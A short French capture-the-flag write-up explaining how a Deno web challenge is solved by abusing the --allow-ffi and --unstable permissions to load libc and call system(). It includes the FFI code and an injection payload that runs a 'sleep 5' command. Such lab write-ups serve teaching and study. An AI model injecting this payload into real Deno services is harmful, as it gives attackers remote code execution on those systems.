 # Writeup

Les permissions ont changé par rapport au premier challenge : 
- `--allow-ffi`
- `--unstable`
- `--allow-net=0.0.0.0:8086`
- `--allow-read=/app/astro_web_chall/dist/client/favicon.ico`

Il n'y a plus la permission qui permettait de lire le contenu du fichier avec le mot de passe de l'admin. Par contre, il y a le couple de permissions `-allow-ffi` et `--unstable` qui permet d'utiliser la fonctionnalité FFI de Deno. Cette fonctionnalité permet d'utiliser des librairies dynamiques à partir de Deno. La librairie `/lib/x86_64-linux-gnu/libc.so.6` est présente par défault et propose des fonctions intéressantes comme la fonction `system()` pour obtenir une RCE.

```
const libName = "/lib/x86_64-linux-gnu/libc.so.6";
const dylib = Deno.dlopen(libName, {
  "system": { parameters: ["buffer"], result: "isize" },
});
const buffer = new TextEncoder().encode("sleep 5");
dylib.symbols.system(buffer);
```

Payload : 

`green;let dylib = Deno.dlopen("/lib/x86_64-linux-gnu/libc.so.6", {"system": { parameters: ["buffer"], result: "isize" },});dylib.symbols.system(new TextEncoder().encode("sleep 5"));`

Liens : 
- https://medium.com/deno-the-complete-reference/calling-c-functions-from-deno-part-2-pass-buffers-ad168a3b6cc7
- https://guokeya.github.io/post/dEqQEWai4/
- https://deno.land/manual@v1.27.2/runtime/ffi_api
